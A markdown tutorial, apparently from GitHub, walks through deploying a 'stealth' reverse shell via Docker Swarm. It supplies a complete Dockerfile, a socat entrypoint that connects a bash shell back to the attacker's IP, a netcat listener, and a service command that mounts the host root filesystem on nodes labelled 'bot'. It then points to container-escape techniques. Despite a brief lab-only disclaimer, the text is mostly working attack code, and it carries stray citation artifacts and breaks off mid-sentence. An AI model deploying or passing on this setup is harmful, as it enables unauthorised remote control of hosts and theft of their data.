 # Mastering Stealth: Deploying a Reverse Shell with Docker Swarm Like a Pro

Reverse shells are indispensable tools for penetration testers, enabling remote access and control during authorized security assessments. This guide demonstrates how to set up a reverse shell using Docker Swarm, leveraging containerized environments for precision and scalability.  
**Disclaimer:** This setup is strictly for ethical use in lab environments or with explicit permission. Unauthorized use is illegal.

---

## **What You'll Need**
1. A **Command-and-Control (C2)** server with Docker installed (Ubuntu preferred).
2. A **target client machine** ready to join the Docker Swarm.
3. Basic familiarity with Docker commands and networking concepts.
4. A GitHub account with access to GitHub Container Registry (GHCR).

---

## **1. Initializing the C2 Server**

Docker Swarm provides an efficient way to orchestrate containerized environments, serving as the backbone of our reverse shell setup.

1. **Install Docker on the C2 Server:**  
   If Docker isn’t already installed, follow the official [Docker installation guide](https://docs.docker.com/engine/install/).

2. **Initialize Docker Swarm:**  
    Run the following command on your C2 server:
    ```bash
    docker swarm init
    ```

    Example output:
    ```plaintext
    Swarm initialized: current node (mha0yryh5oaxkutyaqd5n58mi) is now a manager.
    To add a worker to this swarm, run the following command:

        docker swarm join --token SWMTKN-1-abc123def456ghijklmnopqrstuvwxyz 192.168.1.100:2377
    ```

    - **Manager Node:** Controls the Docker Swarm.
    - **Worker Node:** Executes tasks as part of the Swarm.

3. **Save the Join Token:**  
    Copy the `docker swarm join` command. You’ll use it to add client machines to the Swarm.

---

## **2. Create the Reverse Shell Docker Image**

Containers provide lightweight, isolated environments, making them perfect for penetration testing.

1. **Set Up a Workspace:**  
    Create and navigate to a directory for your project:
    ```bash
    mkdir reverse-shell
    cd reverse-shell
    ```

2. **Write the Dockerfile:**  
    The `Dockerfile` defines the container’s environment. Create a file named `Dockerfile` with the following content:
    ```dockerfile
    FROM ubuntu:latest

    RUN apt-get update && apt-get install -y bash socat

    COPY entrypoint.sh /entrypoint.sh
    RUN chmod +x /entrypoint.sh

    ENTRYPOINT ["/entrypoint.sh"]
    ```

3. **Write the Entry Point Script:**  
    Create a file named `entrypoint.sh` to handle the reverse shell connection:
    ```bash
    #!/bin/bash

    if [ -z "$REMOTE_IP" ] || [ -z "$REMOTE_PORT" ]; then
      echo "Error: REMOTE_IP and REMOTE_PORT environment variables must be set."
      exit 1
    fi

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$REMOTE_IP:$REMOTE_PORT
    ```

4. **Login to GitHub Container Registry:**  
    Replace `ghp_XXXX` with your GitHub Personal Access Token (PAT):
    ```bash
    export CR_PAT="ghp_XXXX"
    echo $CR_PAT | docker login ghcr.io -u <github-username> --password-stdin
    ```

5. **Build and Push the Docker Image:**  
    Use `docker buildx` to create a multi-platform image and push it to GHCR:
    ```bash
    docker buildx build --platform linux/amd64,linux/arm64 -t ghcr.io/<github-username>/reverse-shell-ubuntu:latest --push .
    ```

6. **Make the Image Public:**  
    Visit your GitHub Packages overview, locate the `reverse-shell-ubuntu` package, and set its visibility to **Public**.

---

## **3. Prepare the Client Machine**

1. **Install Docker:**  
    Follow the [Docker installation guide](https://docs.docker.com/engine/install/) to set up Docker on the target machine.

2. **Join the Docker Swarm:**  
    Use the `docker swarm join` command copied earlier:
    ```bash
    docker swarm join --token SWMTKN-1-abc123def456ghijklmnopqrstuvwxyz 192.168.1.100:2377
    ```

    The client is now part of the Swarm and ready to execute tasks.

---

## **4. Set Up the Reverse Shell on the C2 Server**

1. **Start a Netcat Listener:**  
    On your C2 server, listen for incoming connections:
    ```bash
    nc -lvnp 1337
    ```

2. **Label the Target Node:**  
    Identify the client node using:
    ```bash
    docker node ls
    ```

    Assign a label to the node for targeted service deployment:
    ```bash
    docker node update --label-add role=bot <node-id>
    ```

3. **Deploy the Reverse Shell Service:**  
    Run the following command to create the reverse shell:
    ```bash
    docker service create \
      --name reverse-shell-ubuntu \
      --mode global \
      --env REMOTE_IP=192.168.1.100 \
      --env REMOTE_PORT=1337 \
      --mount type=bind,source=/,target=/host_root \
      --constraint 'node.labels.role == bot' \
      ghcr.io/<github-username>/reverse-shell-ubuntu:latest
    ```

---

## **5. Verify the Connection**

Switch to your Netcat listener terminal. If everything is configured correctly, you should see an active reverse shell connection from the target client.

---

## **What’s Next?**

Once you have a reverse shell, consider the following post-exploitation techniques for further exploration or testing:

### **1. Container Escaping**
- **Overview:** Attempt to break out of the container to gain access to the host system.
- **Techniques:**
  - **Mounted Docker Socket:** If the Docker socket is mounted inside the container, you can communicate with the Docker daemon to create new containers with elevated privileges. :contentReference[oaicite:0]{index=0}
  - **Privileged Containers:** Containers run with the `--privileged` flag have extended capabilities, potentially allowing host access. :contentReference[oaicite:1]{index=1}
- **Resources:**
  - [Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
  - [Understanding Docker Container Escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

### **2. Chroot Environments**
- **Overview:** Use `chroot` to change the apparent root directory for the current running process, which can be used to mimic the container's environment.
- **Techniques:**
  - **Binding the Host Filesystem:** Mount the host filesystem within the container
::contentReference[oaicite:2]{index=2}
 
